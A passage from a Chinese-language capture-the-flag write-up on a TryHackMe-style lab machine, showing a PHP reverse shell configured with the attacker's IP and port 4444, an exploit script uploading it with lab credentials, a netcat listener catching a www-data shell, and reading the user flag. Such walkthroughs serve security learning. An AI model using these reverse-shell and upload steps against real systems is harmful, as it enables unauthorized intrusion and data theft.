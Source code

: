 在 Kali Linux 上。我设置了以下配置:

```
[ ... snip ... ]set_time_limit (0);
$VERSION = “1.0”;
$ip = ‘<my attackbox ip address>’; // CHANGE THIS
$port = 4444; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;[ ... snip ... ]
```

运行漏洞，然后…

```
**└─$ python exploit.py**Enter The Target URL(Example : localhost.com) : <target ip address>/content
Enter Username : manager
Enter Password : Password123 
Enter FileName (Example:.htaccess,shell.php5,index.html) : shell.php5
[+] Sending User&Pass…
[+] Login Succssfully…
[+] File Uploaded…
[+] URL : http://<target ip address>/content/attachment/shell.php5
```

我只需要设置一个 netcat 监听器，并通过我的 web 浏览器请求 php 脚本:

```
**└─$ nc -l -n -v -p 4444**
listening on [any] 4444 …[ … requests the php shell …]connect to [<attackbox ip address>] from (UNKNOWN) [<target ip address>] 57614
Linux THM-Chal 4.15.0–70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 00:17:45 up 1:32, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can’t access tty; job control turned off
**$ whoami**
www-data
```

我加入了。

## 标志和初始访问后

我将继续获取用户标志，并想出一种获取 root 权限的方法:

```
**$ cd /home**
**$ ls**
itguy
**$ cd itguy**
**$ ls**
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
**$ cat user.txt # <- the user flag** *[redacted]*
```
